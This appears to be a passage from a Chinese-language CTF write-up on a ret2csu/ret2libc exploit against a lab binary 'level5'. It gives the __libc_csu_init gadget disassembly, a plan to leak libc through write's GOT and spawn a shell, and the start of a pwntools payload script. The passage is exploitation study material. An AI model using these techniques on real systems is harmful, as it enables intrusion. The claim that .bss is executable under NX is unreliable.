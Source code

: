 ```assembly
.text:0000000000400603                 mov     rsi, r14
.text:0000000000400606                 mov     edi, r13d
.text:0000000000400609                 call    qword ptr [r12+rbx*8]
.text:000000000040060D                 add     rbx, 1
.text:0000000000400611                 cmp     rbx, rbp
.text:0000000000400614                 jnz     short loc_400600
.text:0000000000400616
.text:0000000000400616 loc_400616:                             ; CODE XREF: __libc_csu_init+34j
.text:0000000000400616                 add     rsp, 8
.text:000000000040061A                 pop     rbx
.text:000000000040061B                 pop     rbp           # 重点
.text:000000000040061C                 pop     r12
.text:000000000040061E                 pop     r13
.text:0000000000400620                 pop     r14
.text:0000000000400622                 pop     r15
.text:0000000000400624                 retn
.text:0000000000400624 __libc_csu_init endp
```



**调试之后发现，既没有system函数，也无/bin/sh字符串，有NX保护，所以考虑ret2libc或者其他**

分析`CSU`函数 ，得到的gadget如下所示：  

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-04-10_15-35-38.png)

整个过程分三个步骤：

- 在主函数中使用过`write`函数，所以我们首先需要泄露该函数的got表，从而算出Libc的基地址，然后跳到`main`函数
- 再从`main`函数开始执行，这时候通过调用函数向`.bss`段写入 "/bin/sh"字符串；因为有NX保护，原本的buf可写入但不可执行，所以需要写入`.bss`段，该段具有可写可执行权限；再返回到main函数
- 根据libc 调用执行bss段中的execve(“/bin/sh”)

---

以上过程 地址对应了三个payload 

==函数原型==

>write 函数原型是 write (1,address,len)   //1 表示标准输出流 ，address 是 write 函数要输出信息的地址 ，而 len 表示输出长度
>
>read(int fd, void *buf, size_t count);  // fd是函数open的返回值，成果则返回已写入的字节数，失败，则返回-1；buf，要写到文件的数据；count，是buf的长度

**进一步思考**，其实"/bin/sh" 再libc中就有 ，应该不用直接写入然后调用，其次 为什么不用system函数.....?  有待进一步🤔

------------------>Q&A中有详解

### Payload

```python
from pwn import *
#from LibcSearcher import LibcSearcher  # LibcSearcher 使国人开发的查找库的小程序
context.log_level = "debug"
context(arch='amd64',os = "linux")
io = process("./level5")
e = ELF("./level5")

write_plt_addr = e.plt["write"]
write_got_addr = e.got["write"]

read_got = e.got["read"]
main_addr = e.symbols["main"]
bss_addr = e.bss()

gadget1 = 0x400606
gadget2 = 0x4005F0
```